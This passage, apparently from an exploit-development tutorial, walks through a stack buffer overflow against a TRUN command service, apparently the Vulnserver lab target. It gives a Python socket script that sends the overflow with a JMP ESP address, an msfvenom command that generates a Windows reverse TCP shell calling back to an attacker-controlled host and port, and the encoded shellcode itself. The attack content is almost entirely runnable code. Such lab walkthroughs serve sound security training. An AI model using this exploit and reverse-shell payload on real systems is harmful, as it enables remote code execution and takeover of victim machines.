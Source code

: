 Note to developers: always compile with ASLR if you can! If makes the attacker's job a lot harder.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 2003  # calculated buffer size
payload += struct.pack("<L", 0x625011AF) # JMP ESP address being converted into little endian format
payload += "C" * 500  # padding to ensure a crash

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```
If you run your exploit now, you can see your JMP ESP gets loaded into the EIP register. 

## Generate shellcode

We will use a reverse shell payload generated from msfvenom

`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.78 LPORT=4444 -b "\x00" -v shellcode -f python`

- -p specifies the payload, we choose a non-staged TCP reverse shell
- LHOST is our localhost system, the system we want the shell to connect back to
- LPORT is the port we will listen on for an incoming shell
- -b "\x00" specifies to generate shellcode without any null bytes in it, you don't want bad characters, it won't let your shellcode work properly
- -v shellcode specifies the variable we generate the shellcode with
- -f python specifies we want our shellcode generated in python-format, if your writing your exploits in other languages, optimize it in accordance

```python
shellcode =  "" # shellcode without \x00 as a bad character
shellcode += "\xbb\xe8\x37\x7b\xfa\xda\xd1\xd9\x74\x24\xf4\x5a"
shellcode += "\x2b\xc9\xb1\x52\x83\xc2\x04\x31\x5a\x0e\x03\xb2"
shellcode += "\x39\x99\x0f\xbe\xae\xdf\xf0\x3e\x2f\x80\x79\xdb"
shellcode += "\x1e\x80\x1e\xa8\x31\x30\x54\xfc\xbd\xbb\x38\x14"
shellcode += "\x35\xc9\x94\x1b\xfe\x64\xc3\x12\xff\xd5\x37\x35"
shellcode += "\x83\x27\x64\x95\xba\xe7\x79\xd4\xfb\x1a\x73\x84"
shellcode += "\x54\x50\x26\x38\xd0\x2c\xfb\xb3\xaa\xa1\x7b\x20"
shellcode += "\x7a\xc3\xaa\xf7\xf0\x9a\x6c\xf6\xd5\x96\x24\xe0"
shellcode += "\x3a\x92\xff\x9b\x89\x68\xfe\x4d\xc0\x91\xad\xb0"
shellcode += "\xec\x63\xaf\xf5\xcb\x9b\xda\x0f\x28\x21\xdd\xd4"
shellcode += "\x52\xfd\x68\xce\xf5\x76\xca\x2a\x07\x5a\x8d\xb9"
shellcode += "\x0b\x17\xd9\xe5\x0f\xa6\x0e\x9e\x34\x23\xb1\x70"
shellcode += "\xbd\x77\x96\x54\xe5\x2c\xb7\xcd\x43\x82\xc8\x0d"
shellcode += "\x2c\x7b\x6d\x46\xc1\x68\x1c\x05\x8e\x5d\x2d\xb5"
shellcode += "\x4e\xca\x26\xc6\x7c\x55\x9d\x40\xcd\x1e\x3b\x97"
shellcode += "\x32\x35\xfb\x07\xcd\xb6\xfc\x0e\x0a\xe2\xac\x38"
shellcode += "\xbb\x8b\x26\xb8\x44\x5e\xe8\xe8\xea\x31\x49\x58"
shellcode += "\x4b\xe2\x21\xb2\x44\xdd\x52\xbd\x8e\x76\xf8\x44"
shellcode += "\x59\x73\xfd\x46\xd7\xeb\xff\x46\xf6\xb7\x76\xa0"
shellcode += "\x92\x57\xdf\x7b\x0b\xc1\x7a\xf7\xaa\x0e\x51\x72"
shellcode += "\xec\x85\x56\x83\xa3\x6d\x12\x97\x54\x9e\x69\xc5"
shellcode += "\xf3\xa1\x47\x61\x9f\x30\x0c\x71\xd6\x28\x9b\x26"
shellcode += "\xbf\x9f\xd2\xa2\x2d\xb9\x4c\xd0\xaf\x5f\xb6\x50"
shellcode += "\x74\x9c\x39\x59\xf9\x98\x1d\x49\xc7\x21\x1a\x3d"
```